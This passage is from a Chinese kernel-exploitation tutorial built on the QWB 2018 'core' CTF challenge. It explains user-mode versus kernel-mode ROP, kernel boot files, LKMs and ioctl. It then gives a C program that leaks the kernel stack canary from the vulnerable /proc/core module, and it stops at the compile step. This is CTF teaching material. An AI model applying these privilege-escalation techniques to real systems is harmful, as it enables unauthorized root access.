







# 用户态视角理解内核ROP利用：快速从shell到root的进阶-先知社区

> **来源**: https://xz.aliyun.com/news/17110  
> **文章ID**: 17110

---

# 用户态视角理解内核ROP利用：快速从shell到root的进阶

## 一、摘要

本文仅限于快速从**用户态向内核态入门**,可能会**有很多不严谨**的地方,存在问题请及时**告知感谢**!本文旨在通过对比用户态 ROP 利用和内核 ROP 利用，揭示两者在利用手法上的相似性。通过分析用户态漏洞利用的流程，结合内核漏洞利用的特点，引导读者理解内核 ROP 利用的本质，从而更快地掌握内核漏洞利用技术。

本文主要是要为了帮助大部分人去克服学习内核利用Kernel\_pwn前的枯燥无聊的前置知识的学习,虽然本文很长但是只需要跟着实际操作就可以快速学习完毕,本文直接以用户态和内核态的对比利用来讲解,在实际操作中讲解知识点,其实本文可以直接从这部分开始看:**五、实战以强网杯2018 - core内核Pwn题**

之后再回来看基础知识!学会如何进行Linux内核调试和驱动文件的漏洞挖掘!!!!

无论是在内核还是用户态中,漏洞利用的本质是通过构造特定输入，触发程序的异常执行路径。其核心逻辑包含三个必要要素：

* **输入交互**：必须存在外部可控的输入通道，例如网络数据包、文件内容或用户输入界面。
* **漏洞触发点**：程序中存在未经验证的内存操作（存在栈溢出漏洞），导致控制流可能被劫持。
* **权限提升路径**：通过修改关键数据结构（返回地址、函数指针等），建立从漏洞触发到目标代码执行的完整链路。

攻击的终极目标是**控制程序执行流**。当攻击者能够通过漏洞改写EIP/RIP寄存器或劫持函数指针时，即可强制程序跳转至指定内存区域（如Shellcode或ROP链），最终实现代码执行。

当内存屏障竖起高墙，黑客如何让代码在荒漠中开花？（ROP（Return-Oriented Programming）的本质是一场精密的指令拼图游戏——从程序的废墟中挖掘代码片段（gadgets），通过栈指针的精准操控，让这些孤立指令像多米诺骨牌般连锁触发，最终突破系统的桎梏!

## 二、概述：漏洞利用的通用思维框架

### **1. 用户态和内核态ROP的核心共性**

|  |  |  |  |
| --- | --- | --- | --- |
| **对比维度** | **用户态ROP** | **内核态ROP** | **核心共性** |
| **控制流劫持目标** | 劫持进程控制流（如覆盖栈返回地址） | 劫持内核控制流（驱动或内核存在可以利用漏洞） | 均需通过漏洞（溢出、UAF等）劫持控制流 |
| **Gadget来源** | 用户态程序或动态库（如libc、libc.so） | 内核镜像或内核模块（如vmlinux、.ko文件） | 复用现有代码片段（Gadgets），绕过DEP/NX |
| **内存布局操控** | 覆盖用户栈/堆内存（如返回地址、函数指针） | 篡改内核栈/堆内存（如内核结构体、任务栈） | 需精确控制内存布局以链式调用Gadgets |
| **权限与上下文** | 用户态权限（Ring 3），遵循用户空间调用约定 | 内核态权限（Ring 0），需适配内核特权级上下文 | 上下文敏感设计（如寄存器状态、传参方式） |
| **对抗保护机制** | 绕过用户态ASLR、Stack Canary | 绕过内核态KASLR、SMAP/SMEP（若启用） | 依赖信息泄露获取基址，绕过随机化与检测机制 |
| **漏洞利用入口** | 常见于应用层漏洞（如栈溢出、格式化字符串） | 多通过系统调用接口（如ioctl、syscall）触发漏洞 | 利用程序逻辑缺陷或内存错误实现初始控制流劫持 |
| **攻击目标** | 执行Shellcode、劫持应用逻辑 | 实现内核代码执行、关闭安全机制、Rootkit植入、提权 | 最终目标均为实现非授权代码执行或权限提升 |
| **缓解措施** | DEP/NX、ASLR、Stack Canary | KASLR、SMAP/SMEP、KPTI、内核代码签名 | 均需结合硬件与软件防护机制抵御ROP攻击 |

**关键差异总结**：

1. **权限层级**：用户态受限于Ring 3，内核态拥有Ring 0特权，可执行敏感指令（如CR3修改）。
2. **Gadget范围**：内核态需从内核镜像中提取Gadgets，且需处理特权指令（如`swapgs`、`sti`）。
3. **缓解机制**：内核态需额外对抗SMAP/SMEP（阻止用户态内存访问）和KPTI（隔离用户/内核页表）。
4. **漏洞入口**：用户态漏洞多由应用逻辑引发，内核态漏洞常通过驱动或系统调用触发。

### **2.用户态和内核态漏洞利用环境差异对比**

|  |  |  |
| --- | --- | --- |
| **维度** | **用户态** | **内核态** |
| 交互方式 | 通过开放端口、命令行参数等进程间通信 | 依赖系统调用（syscall）、驱动IOCTL接口等底层交互 |
| 地址空间 | 每个进程拥有独立的虚拟地址空间（受MMU隔离保护） | 所有进程,全局共享的内核地址空间（无隔离性） |
| 权限级别 | Ring 3，仅能访问受限资源 | Ring 0，可直接操作硬件和系统关键数据结构 |
| 保护机制 | ASLR、NX、Stack Canary等用户层防护 | Stack Canary、KASLR、SMEP（禁止内核执行用户页）、SMAP（禁止内核访问用户页）等硬件级防护 |
| 提权目标 | 获取进程权限（如启动/bin/sh） | 突破权限隔离，获取root或SYSTEM级特权 |
| 攻击脚本 | Python脚本（依赖进程交互接口） | 需编写C/汇编代码直接操作内核数据结构 |

1. **地址空间隔离性**

* 用户态下，每个进程拥有独立的虚拟地址空间，通过MMU实现内存隔离。漏洞利用通常需要先泄露内存布局（如通过信息泄露漏洞绕过ASLR）。
* 内核态中，所有进程共享同一内核地址空间。攻击者可利用该特性直接修改全局数据结构（如进程凭证cred结构），但需规避KASLR对内核符号的随机化。

1. **权限提升路径**

* 用户态提权通常通过执行/bin/sh等程序获取当前进程权限，若目标进程本身具有高权限（如SUID程序），则可直接完成提权。
* 内核态攻击需修改当前进程的权限标识（如Linux中的`struct cred`的uid/gid字段），或劫持系统调用表等核心结构，使攻击代码获得Ring 0的执行权限。

1. **防护机制对抗**

* 用户态需组合使用ROP/JOP等代码复用技术绕过NX，利用堆喷（Heap Spray）对抗ASLR。
* 内核态需处理更严格的硬件防护：例如通过`swapgs`等指令绕过KPTI隔离，或构造ROP链规避SMEP/SMAP对用户空间内存的访问限制。

## **三、内核态的基础文件系统和内核基础讲解**

### (一)，基础的内核文件说明

**1. 内核映像文件（如 vmlinuz）**内核映像文件是 Linux 操作系统的核心，包含内核代码和基本驱动。启动时，它被加载到内存中，解压后执行，负责初始化硬件、设置内存管理，并为用户空间准备环境。

* **bzImage**: 这是可启动的压缩内核格式，“bz”代表“big zip”，允许内核文件超过传统 512 KB 限制，适合现代系统。
* **vmlinux**: 未压缩的内核映像，通常用于调试或分析。
* **启动过程**: 内核加载后，初始化硬件（如 CPU、内存）、设置中断和设备驱动，然后挂载根文件系统。

**2. Initrd/Initramfs**Initrd 和 Initramfs 是启动过程中的临时根文件系统，用于在挂载真实根文件系统前加载必需的驱动和工具。

* **initrd（initial ramdisk）**：内核启动时加载的临时根文件系统，用于在挂载真正的根文件系统前加载必需的驱动模块。
* **initramfs**: Initrd 的改进版，使用 cpio 格式，直接解压到内存，无需挂载，提供更高效率和灵活性。
* **用途**: 内核可能需要特定驱动（如磁盘控制器）才能访问真实根文件系统，Initramfs 提供临时环境加载这些驱动。

### (二)，了解Qemu模拟运行Linux内核的基本执行流程

QEMU 是一个开源模拟器，广泛用于虚拟化不同架构的操作系统。在启动 Linux 内核时，QEMU 通过 qemu-system-x86 命令初始化虚拟机环境。这一过程包括设置 CPU、内存和设备模拟，确保虚拟机能够运行目标操作系统。

1. **通过QEMU启动内核以及加载文件系统:**


**内核加载与执行：** QEMU 加载内核映像文件，通常为 bzImage（压缩的内核）或 vmlinux（未压缩的内核）。根据 [QEMU 文档](https://www.qemu.org/docs/master/system/invocation.html)，用户可以通过 -kernel 选项指定内核文件路径。内核加载后，会自动解压（如果为 bzImage），然后开始执行，完成硬件初始化（如设置内存结构、加载驱动）。

2. **Initramfs 处理过程**：


Initramfs（Initial RAM Filesystem）是 Linux 启动过程中的临时根文件系统，通常以 initramfs.cpio 格式存在。根据 [Gentoo Wiki](https://wiki.gentoo.org/wiki/Initramfs/Guide)，其主要目的是为内核提供一个最小化的用户空间环境，以加载必要的驱动和挂载真实根文件系统。

* **加载与挂载：** 内核检测到 Initramfs 文件后，将其解压并挂载为内存中的临时根文件系统（/）。这一过程通过 cpio 归档格式实现，内容包括基本的 shell、工具（如 busybox）和配置文件。
* **作用：** Initramfs 特别适用于需要特殊驱动（如 RAID、LVM 或加密文件系统）的系统。例如，[Debian Wiki](https://wiki.debian.org/initramfs) 指出，Initramfs 允许在挂载真实根文件系统之前加载内核模块，增强了启动的灵活性。
* **解释补充：** 用户提供的图表正确描述了这一阶段，但需要强调 Initramfs 是启动过程中的关键步骤，尤其在复杂存储配置下（如 USB 启动或加密分区）。

​

3. **用户空间初始化**


在 Initramfs 设置完成后，内核会启动 Initramfs 中的 /init 脚本，这是第一个用户空间进程。/init 脚本负责加载必要的内核模块（如 .ko 文件），挂载真实根文件系统，然后启动用户空间的初始化进程（如 systemd 或 shell），完成系统的全面初始化。，根据不同的构建方式shell脚本可以在不同位置。

​

4. **最终整合后的流程如下表**

|  |  |  |
| --- | --- | --- |
| **阶段** | **主要动作** | **说明** |
| QEMU 启动内核文件 | 加载内核映像（如 bzImage），解压并执行 | 完成硬件初始化，准备后续步骤 |
| Initramfs 处理 | 加载 initramfs.cpio，挂载为临时根文件系统 | 提供最小化环境，加载驱动和工具 |
| 用户空间初始化 | 执行 /init 脚本，挂载真实根，启动 systemd/shell | 完成系统初始化，进入用户 |

### (三)，LKMs（可装载内核模块，Loadable Kernel Modules）

**1.LKMs 的文件格式**:在linux里面查看该文件：

```
ub20@ub20:~/KernelStu/RunQemu$ file ../CodeKernelDriver/hello.ko 
../CodeKernelDriver/hello.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=6cc23340ffa46ada1c55861237166888e5676d
```

**文件格式**：**Linux**：采用 **ELF**（Executable and Linkable Format）格式，后缀通常是 .ko（kernel object）。

**LKMs 文件与ELF的区别**：

* **用户态程序**：ELF 文件可以独立运行（如 ./binary），由用户态加载器解析并执行。
* **LKMs**：ELF 文件（.ko）不能独立运行，必须通过内核的模块加载机制（如 insmod）加载到内核空间，依赖内核符号表（如 printk、kmalloc）工作。

**在不同操作系统上也有类似的机制**：

* **Windows**：类似功能的文件是 .exe 或 .dll（动态链接库），但内核模块通常以驱动形式存在（如 .sys）。
* **macOS**：使用 **Mach-O** 格式，但 macOS 的内核扩展（KEXT）机制与 LKMs 略有不同。

2.**LKMs（可装载内核模块）是什么？****定义**：LKMs 是 Linux 内核支持的一种机制，允许在内核运行时动态加载或卸载功能模块，而无需重新编译或重启整个内核。它们是内核代码的扩展，通常用于添加设备驱动程序、文件系统支持、网络协议或其他功能。**特点**：

* **动态性**：可以在运行时加载（load）或卸载（unload），相比之下，静态编译进内核的代码需要重启系统才能生效。
* **模块化**：将内核功能分解为独立模块，便于维护和扩展。
* **依赖内核**：LKMs 不能独立运行，必须嵌入内核地址空间，作为内核的一部分执行。

3.**与内核相关的Linux指令：**

* *insmod*: 讲指定模块加载到内核中

* 特点：需要提供模块文件的完整路径，且不会自动处理模块的依赖关系。通常用在需要手动加载单个模块的场景。

* **rmmod**: 从内核中卸载指定模块

* 特点：只需要模块名称（不需要路径或 .ko 后缀），但如果模块正在被使用或有依赖关系，卸载会失败。

* **lsmod**: 列出已经加载的模块

* 特点：输出包括模块名、占用内存大小以及依赖关系，简单明了，常用于检查模块状态。

* **modprobe**: 添加或删除模块，modprobe 在加载模块时会查找依赖关系

* 比 insmod 和 rmmod 更智能，会根据 /lib/modules/ 下的模块依赖文件（通常由内核版本管理）自动加载依赖模块，是日常使用中最推荐的工具。

### (四)，以强网杯2018 - core内核Pwn题的文件为例：

> **例题**：**强网杯2018 - core**依然是十分经典的kernel pwn入门题,内核入门题的老演员了！
>
> [点击下载-core.7z](https://arttnba3.cn/download/qwb2018/pwn/core.7z)
>
> WP:[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF - arttnba3's blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x01-Kernel-ROP-basic)

1. 将压缩包解压出来之后可以得到这些文件

```
ub20@ub20:~/KernelStu/KernelVuln/Kernel_ROP_basic/give_to_player$ ls
bzImage   core.cpio vmlinux   start.sh
```

* **bzImage**：启动内核的压缩镜像。
* **core.cpio**：包含了完整的根文件系统。
* **vmlinux**：内核符号文件，有助于我们分析内核函数地址。
* **start.sh**：启动脚本，用于初始化环境。

​

2. start.sh利用如下命令启动 QEMU 虚拟机,查看一下启动参数及保护机制：

```
qemu-system-x86_64 \
-m 64M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

这里的启动参数中包含：

* **kaslr**：开启内核地址空间布局随机化，但由于其他防护措施较弱（例如 NX 被禁用），依然为后续的 ROP 利用提供了突破口。
* 其它参数则确保虚拟机内的文件系统、网络及调试环境能正常工作。

​

3. 解压这个文件可以看见整个文件系统的目录：

```
gunzip -c /home/ub20/KernelStu/KernelVuln/Kernel_ROP_basic/give_to_player/core.cpio | cpio -idmv
```

这就是解压出来的文件系统core.cpio，就是一个Linux操作系统的文件目录结构里面有构建好的基础工具：

```
ub20@ub20:~/KernelStu/KernelVuln/Kernel_ROP_basic/tmp$ tree -d 
.
├── bin
├── etc   # 系统配置文件（通常包含inittab、passwd等）
├── lib   # 内核模块存储目录（注意权限位为755）
│   └── modules
│       └── 4.15.8   # 内核版本
│           └── kernel
│               ├── arch
│               │   └── x86
│               │       └── kvm
│               ├── drivers
│               │   ├── thermal
│               │   └── vhost
│               ├── fs
│               │   └── efivarfs
│               └── net
│                   ├── ipv4
│                   │   └── netfilter
│                   ├── ipv6
│                   │   └── netfilter
│                   └── netfilter
├── lib64
├── proc   # 进程信息虚拟文件系统
├── root
├── sbin
├── sys
├── tmp
└── usr
    ├── bin
    └── sbin
```

解压后你会发现文件系统内的目录结构与标准 Linux 系统类似，主要目录包括：

* **bin、sbin**：基本命令与系统管理工具。
* **etc**：存放系统配置文件，如 passwd、inittab 等。
* **lib/lib64**：存放库文件及内核模块，其中 `lib/modules/4.15.8/` 目录下包含当前内核版本的模块。
* **proc、sys**：虚拟文件系统，分别提供进程与系统信息。
* **usr**：包含一些用户级工具。

1. 查看解压后的 `/init` 脚本内容，可以看见他的初始化脚本加载了哪些内核文件，和进行了什么操作有什作用：

```
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx

cat /proc/kallsyms > /tmp/kallsyms# 将内核符号表导出到 /tmp/kallsyms 文件，用于调试和分析
echo 1 > /proc/sys/kernel/kptr_restrict# 限制非特权用户访问内核符号地址
echo 1 > /proc/sys/kernel/dmesg_restrict# 限制非特权用户访问内核日志

ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 

# 加载内核模块 core.ko
insmod /core.ko
poweroff -d 120 -f &  # 在 120 秒后强制关机
setsid /bin/cttyhack setuidgid 1000 /bin/sh  # 启动一个新的会话，并以 UID 1000 的用户身份运行 shell

echo 'sh end!
' # 打印 shell 结束信息
umount /proc
umount /sys

# 立即强制关机
poweroff -d 0 -f
```

* **内核符号泄露**：通过将 `/proc/kallsyms` 的内容复制到 `/tmp/kallsyms`，攻击者可以轻松获取内核中所有函数的地址，对于构造 ROP 链至关重要。
* **安全配置调整**：写入 `kptr_restrict` 和 `dmesg_restrict`，将内核符号信息暴露出来，从而降低了利用难度。
* **模块加载**：`insmod /core.ko` 表明题目中真正存在漏洞的模块就是 `core.ko`，后续的漏洞挖掘与利用将围绕此模块展开。
* **调试与网络配置**：配置网络及设置延时关机方便调试，有时需要手动去除定时关机以便反复利用。

​

1. **内核模块保护检查**

在解压出来的文件系统中成功找到了core.ko内核文件：

```
ub20@ub20:~/KernelStu/KernelVuln/Kernel_ROP_basic/tmp$ checksec --file=./core.ko 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        Canary found      NX disabled   Not an ELF file   No RPATH   No RUNPATH   41 Symbols     No     0               0       ./core.ko
```

分析输出可以看出：

* **RELRO**：未启用，模块内存保护较弱。
* **Stack Canary**：存在一定的栈保护，但并不足以完全抵抗溢出攻击。
* **NX（不可执行位）**：被禁用，允许在堆栈上执行代码，这为构造 ROP 链提供了便利。
* **符号信息**：包含 41 个符号，有助于定位漏洞代码和搭建攻击链。

## 四、驱动文件的动静逆向分析技术讲解

在深入分析驱动文件之前，掌握一些基础知识是至关重要的。本节将带领读者了解如何通过动静结合的方式对驱动文件进行逆向分析，重点讲解用户态与内核态的交互机制、关键内核函数的使用，以及如何通过调试工具对内核进行调试。

#### 基础知识准备: 用户态与内核交互的关键系统调用 ioctl

在Linux系统中，用户态程序与内核态驱动之间的交互通常通过系统调用实现。`ioctl` 是一个非常重要的系统调用，用于设备控制。它允许用户态程序向内核态驱动发送特定的控制命令，从而实现设备的管理和配置。

在一般系统调用就是通过系统调用号来实现，比如`64`位下`read`的系统调用号为`0`。

> `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` 和 `/usr/include/x86_64-linux-gnu/asm/unistd_32.h` 可以查看 64 位和 32 位的系统调用号。

**系统调用：**`ioctl`在 `Linux` 系统中，几乎所有设备都被视为文件，这使得通过标准的文件操作（如 `open`、`read`、`write` 和 `close`）来访问设备变得简单。然而，某些操作超出了这些标准接口的能力，需要一个更灵活的机制来处理设备特定的功能，这就是 `ioctl` 的用武之地。

`ioctl`的功能

* **设备控制**：通过 `ioctl`，用户空间程序可以发送控制命令给设备驱动程序，进行设备特定的操作，比如设置设备参数、查询设备状态等。
* **扩展性**：因为设备驱动是可扩展的，`ioctl` 使得新设备可以通过定义新的请求码和操作接口来被支持，而不需要修改现有的系统调用。

**函数原型**在 C 语言中，`ioctl` 的原型如下：

```
int ioctl(int fd, unsigned long request, ...);
```

* `fd`：文件描述符，通常是通过 `open()` 函数获取的，用于指定要操作的设备。
* `request`：请求的命令，通常是一个宏，定义了要执行的操作。
* `...`：可选参数，具体取决于请求的类型，有时需要传递指向结构体的指针或其他参数。

使用`ioctl`

```
int fd = open("/dev/mydevice", 2);//在内核中攻击使用/proc/mydevice
ioctl(fd, request_code, data) ;
```

#### 基础知识准备: 驱动文件中的关键函数init\_module

`init_module` 是 Linux 内核模块加载时的入口函数，负责：

* 分配资源（内存、IO 端口等）；
* 注册设备（如创建设备节点、分配设备号）；
* 初始化硬件或数据结构。

​

了解 `init_module` 的实现可以帮助确定驱动的加载流程和初始化逻辑，并为后续的漏洞挖掘提供线索。

#### 基础知识准备: Linux内核中常见的内核态函数

在内核驱动中，许多函数在系统稳定性与安全性上起着至关重要的作用。下面列举一些常见的函数：

* **printk**：用于内核日志输出，调试信息可通过 `dmesg` 查看。利用 printk 可观察到模块加载、错误提示等信息。
* **copy\_from\_user / copy\_to\_user**：这两个函数用于在内核与用户空间之间传递数据，往往是漏洞出现的重要接口，如缓冲区溢出、越界访问等问题可能出现在此。
* **kmalloc / kfree**：内核动态内存分配与释放函数，类似于用户态的 malloc/free，但因内存池和同步机制的不同，容易因错误使用引发内存泄漏或内存破坏。
* **proc\_create**：在 `/proc` 文件系统中创建条目，常用于调试和状态监控，逆向过程中可借助该接口了解驱动的运行状态。

​

在 Linux 内核中，proc\_create 是一个非常重要的函数，用于在 /proc 文件系统下创建新的文件条目。它通常用于内核模块或驱动程序开发，以便提供一种用户空间与内核空间交互的接口。下面我详细解释它的作用和用法。

```
struct proc_dir_entry *proc_create(
        const char *name, 
        umode_t mode, 
        struct proc_dir_entry *parent, 
        const struct file_operations *proc_fops);
```

**返回值**: 返回一个指向 struct proc\_dir\_entry 的指针，表示创建的 proc 文件条目。如果创建失败，返回 NULL。

**参数说明:**

1. *const char name*:

* 指定要创建的 proc 文件的名称。
* 例如，如果传入 "core"，则会在指定的父目录下创建 /proc/core 文件。
* 这个文件可以通过用户空间的工具（如 cat、echo）访问。

2. **umode\_t mode**:

* 指定文件的权限模式，通常用八进制表示（例如 0666）。
* 权限值遵循 Linux 文件权限规则：

3. *struct proc\_dir\_entry parent*:

* 指定新文件的父目录，是一个 proc\_dir\_entry 结构体的指针。
* 如果传入 NULL，文件会创建在 /proc 根目录下。
* 如果传入其他值，则可以在子目录下创建文件。例如，如果 parent 指向 /proc/sys，新文件会出现在 /proc/sys/name。

4. *const struct file\_operations proc\_fops*:

* 一个指向 file\_operations 结构体的指针，定义了该 proc 文件支持的操作。
* 这个结构体包含函数指针，例如：

* .read: 定义读文件时的行为。
* .write: 定义写文件时的行为。
* .open: 文件打开时的回调。
* .release: 文件关闭时的回调。

* 通过这个参数，开发者可以自定义用户空间与内核交互的逻辑。

​

#### 4.基础知识准备: 内核调试环境搭建与实践

> **例题**：**强网杯2018 - core**依然是十分经典的kernel pwn入门题,用他来进行内核调试
>
> [点击下载-core.7z](https://arttnba3.cn/download/qwb2018/pwn/core.7z)WP:[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF - arttnba3's blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x01-Kernel-ROP-basic)

本部分将深入解析内核漏洞调试环境的构建方法，以强网杯2018核心赛题为例，演示完整的调试流程

​

##### 编写C语言程序来调用驱动中的函数作为内核调试入口

我们使用以下C程序作为内核态数据探测工具，其核心功能是通过ioctl系统调用与内核模块交互，写了一个泄露内核Canary值的简单程序，编译好后直接传入虚拟机,之后执行即可获得，内核空间中Canary的值！仅本案例有效：

```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>

void set_off_val(int fd, size_t off) {
    ioctl(fd, 0x6677889C, off); // 设置off变量的值
}

void core_read(int fd, char *buf) {
    ioctl(fd, 0x6677889B, buf); // 读取内核数据
}

int main() {
    int fd;
    char buf[0x50];
    size_t canary;

    fd = open("/proc/core", 2); // 打开内核模块
    if (fd < 0) {
        printf("Failed to open /proc/core
");
        exit(-1);
    }

    // 获取Canary值
    set_off_val(fd, 64); // 设置off变量的值为64
    core_read(fd, buf);  // 将指定内核地址的数据读取到buf中
    canary = ((size_t *)buf)[0]; // 提取Canary值

    printf("Canary: 0x%lx
", canary); // 输出Canary值

    // close(fd); // 关闭文件描述符
    // return 0;
}
```

需要在宿主机上，因为有汇编编译使用`-masm`，而且要静态编译然后传入系统中进行执行：

```
gcc ./exploit.c -o readcnary -static -masm=intel
```

* `-static`：静态链接GLIBC，避免目标环境缺失动态库
